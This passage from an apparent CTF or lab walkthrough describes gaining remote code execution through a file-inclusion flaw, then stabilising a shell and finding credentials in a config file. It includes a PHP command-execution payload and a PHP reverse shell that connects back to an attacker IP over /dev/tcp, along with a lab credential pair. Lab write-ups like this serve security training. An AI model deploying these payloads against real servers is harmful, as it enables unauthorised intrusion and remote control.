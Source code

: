 ![](gitbook/cybersecurity/images/Pasted%20image%2020250317151014.png)

We get a directory listing for our server, we can try exploiting this with the inclusion we found on the `server_info.php` file, let's try some basic RCE:

```php
<?php
system('id');
?>
```

Let's save that file as `id.php` and send the request pointing that resource:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317151210.png)

There we go, we got RCE, let's send a shell:

```php
<?php system('bash -c "bash -i >& /dev/tcp/10.6.34.159/4444 0>&1"'); ?>
```

Let's save it as `shell.php` and do the same, we also need to set up a listener.

![](gitbook/cybersecurity/images/Pasted%20image%2020250317151521.png)

There we go, we got our shell, let's start privesc.

## PRIVILEGE ESCALATION

***

Let's start by stabilizing our shell:

1. /usr/bin/script -qc /bin/bash /dev/null
2. CTRL + Z
3. stty raw -echo; fg
4. reset xterm
5. export TERM=xterm
6. export BASH=bash

![](gitbook/cybersecurity/images/Pasted%20image%2020250317152103.png)

We got a stable shell now, let's look around, we got this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317152134.png)

Got a `config.php` file, let's read it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250317152150.png)

Found ourselves credentials:

```
robots:q4qCz1OflKvKwK4S
```

If we try these credentials in ssh, they don't work, we need to keep searching around, for example, at `/`, we find this:
